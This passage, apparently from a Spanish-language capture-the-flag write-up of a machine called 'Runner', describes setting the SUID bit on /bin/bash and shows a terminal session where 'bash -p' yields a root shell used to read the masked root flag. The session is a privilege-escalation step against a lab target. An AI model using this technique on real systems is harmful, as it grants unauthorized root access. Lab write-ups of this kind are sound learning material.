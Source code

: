 Si queremos obtener el acceso a root desde nuestra maquina victima podemos ir un directorio atrás, ir a `/bin` y otorgarle permisos SUID a la bash, con lo cual nos cambia los permisos en la maquina vicitima

![Root3](../assets/images-Runner/Runner27.png)

![[Pasted image 20240823213112.png]](../assets/images-Runner/Runner28.png)

aplicamos el comando `bash -p` y podremos visualizar la flag de root
```bash
john@runner:~$ bash -p
bash-5.1# whoami
root
bash-5.1# ls
user.txt
bash-5.1# cd /root
bash-5.1# ls
docker_clean.sh  initial_state.txt  monitor.sh	root.txt
bash-5.1# cat root.txt 
******************41ac5
bash-5.1# 
```





